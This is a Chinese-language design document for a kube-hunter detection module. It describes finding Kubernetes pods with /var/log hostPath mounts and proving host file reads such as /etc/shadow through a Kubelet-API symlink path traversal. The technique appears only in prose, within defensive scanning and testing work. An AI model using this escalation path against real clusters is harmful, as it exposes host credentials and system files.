本模块旨在检测Kubernetes集群中的特权提升漏洞，具体目标包括：1）识别具有hostPath挂载到/var/log目录的Pod；2）通过Kubelet API验证利用路径遍历漏洞读取主机文件系统敏感文件（如/etc/shadow）的能力。约束条件包括：需要Kubelet API可达、需要集群中存在带有特定hostPath挂载的Pod、需要有效的HTTP会话认证。

### 错误处理与异常设计

异常处理主要采用try-except捕获，捕获后的异常通过logger.debug输出调试信息但不中断执行流程。具体包括：1）execute方法中使用try-except捕获traverse_read的异常；2）网络请求使用verify=False跳过证书验证；3）使用config.network_timeout设置超时时间；4）异常被记录但不传播，防止单次检测失败影响整体扫描。

### 数据流与状态机

数据流分为两个阶段：第一阶段（被动检测）由VarLogMountHunter订阅ExposedPodsHandler事件，遍历Pod列表识别具有/var/log挂载的Pod并发布WriteMountToVarLog事件；第二阶段（主动验证）由ProveVarLogMount订阅ExposedRunHandler事件，获取所有Pod并手动检查其挂载情况，对符合条件的Pod执行目录遍历利用尝试，最终发布DirectoryTraversalWithKubelet事件。

### 外部依赖与接口契约

外部依赖包括：1）kube_hunter.conf.config提供网络超时配置；2）kube_hunter.core.events.handler提供事件订阅和发布机制；3）kube_hunter.core.events.types提供Event和Vulnerability基类；4）kube_hunter.modules.hunting.kubelet提供KubeletHandlers枚举定义RUN、PODS、LOGS接口；5）requests库用于HTTP会话管理。

### 安全性考虑

代码存在以下安全相关问题：1）使用verify=False跳过SSL证书验证，存在中间人攻击风险；2）利用UUID生成临时symlink文件，可能产生临时文件竞争条件；3）直接读取/etc/shadow等敏感文件作为PoC，敏感性强；4）日志中可能记录敏感输出信息。

### 性能考虑

性能优化点包括：1）使用生成器yield逐个返回符合条件的容器，避免一次性加载所有数据；2）使用timeout配置防止网络请求hang；3）单次扫描中多次复用HTTP session减少连接开销。

### 测试策略

测试应覆盖：1）has_write_mount_to方法的路径匹配逻辑；2）mount_path_from_mountname的挂载关联查找；3）traverse_read的symlink创建和文件读取流程；4）异常场景下的错误处理；5）与事件处理器的集成测试。

### 部署注意事项

部署时需注意：1）需要Kubernetes集群访问权限，特别是Kubelet API (默认10250端口)；2）需要RBAC权限才能列出Pod和执行命令；3）检测操作可能会在目标集群中创建临时文件(symlink)，需确保有足够权限；4）建议在隔离环境或授权的安全测试中使用，避免对生产环境造成影响。

### 配置与可扩展性

TODO注释表明代码计划支持多事件订阅模式：replace with multiple subscription to WriteMountToVarLog as well，这表明未来可扩展为直接订阅WriteMountToVarLog事件而非手动获取Pod列表，提高模块化程度。当前硬编码了/etc/shadow作为测试路径，未来可通过配置化支持自定义测试路径。


    